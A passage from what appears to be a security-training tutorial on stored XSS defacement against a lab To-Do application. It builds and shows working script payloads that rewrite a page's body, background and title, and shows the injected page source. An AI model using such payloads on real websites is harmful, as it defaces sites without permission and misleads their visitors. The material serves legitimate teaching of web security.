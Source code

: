 ```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"

```

As we can see, we can specify the `body` element with `document.getElementsByTagName('body')`, and by specifying `[0]`, we are selecting the first `body` element, which should change the entire text of the web page. We may also use `jQuery` to achieve the same thing. However, before sending our payload and making a permanent change, we should prepare our HTML code separately and then use `innerHTML` to set our HTML code to the page source.

For our exercise, we will borrow the HTML code from the main page of `Hack The Box Academy`:

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>

```

**Tip:** It would be wise to try running our HTML code locally to see how it looks and to ensure that it runs as expected, before we commit to it in our final payload.

We will minify the HTML code into a single line and add it to our previous XSS payload. The final payload should be as follows:

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>

```

Once we add our payload to the vulnerable `To-Do` list, we will see that our HTML code is now permanently part of the web page's source code and shows our message for anyone who visits the page:

![](https://academy.hackthebox.com/storage/modules/103/xss_defacing_change_text.jpg)

By using three XSS payloads, we were able to successfully deface our target web page. If we look at the source code of the web page, we will see the original source code still exists, and our injected payloads appear at the end:

```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>

```

This is because our injected JavaScript code changes the look of the page when it gets executed, which in this case, is at the end of the source code. If our injection was in an element in the middle of the source code, then other scripts or elements may get added to after it, so we would have to account for them to get the final look we need.
